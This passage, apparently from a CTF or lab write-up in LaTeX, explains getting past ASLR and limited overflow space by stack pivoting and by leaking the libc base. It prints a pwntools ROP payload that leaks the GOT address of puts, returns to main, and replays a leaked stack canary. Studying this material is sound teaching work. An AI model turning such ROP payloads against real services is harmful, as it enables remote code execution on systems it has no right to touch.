 \documentclass{report}
\begin{document}
    At this point we can actually try to pop a shell with a rop chain and do remote command execution, but we would encounter two main problems.\newline
    \begin{itemize}
        \item[Problem 1:] We don't have enough space after the overflow to perform a rop chain.
        \item[Problem 2:] We don't have the base of the libc to bypass aslr.
    \end{itemize}
    So there are two solution: \newline
    \begin{itemize}
        \item[Solution 1:] Perform a stack pivoting attack.
        \item[Solution 2:] Leak  the libc address.
    \end{itemize}
    \clearpage
    \paragraph{Stack Pivoting}

    When we don't have enough space for the rop chain we can perform an attack called stack pivoting, it consist in manipulating the stack to enlarge the stack that we have available. \newline
    Basically we fake the rsp register to  enlarge the stack, there are many ways to perform a stack pivoting, we will find out my version later.\newline
    \paragraph{Leak the Libc base}
    To leak the base address of libc we will perform a puts of an got fuction address and after the leak, we will calculate the base of the libc doing :\newline
    \begin{verbatim}
        base Libc = address function with ASLR - fuction address with out ASLR  
    \end{verbatim}
    Follow the exploit code.\newline.
    \begin{verbatim}
                
        pop_rdi=0x4012fb
        puts1=0x84420      
        payload2=flat(
             p64(pop_rdi),#address of pop rdi
             p64(exe.got.puts),#address of got puts fucnion
             p64(exe.sym.puts),#address that will actualy print the got puts addres
             p64(0x00401292), #ret 
             p64(exe.sym.main),#calling main again
             b'A'*16,#fill the remaining space of the buffer
             p64(real_canary), #send the canary to bypass the canary mitigation
             p64(target_bp), #send the target base pointe    
        )
        io.sendafter(b">", payload2)
    \end{verbatim}
        
\end{document}
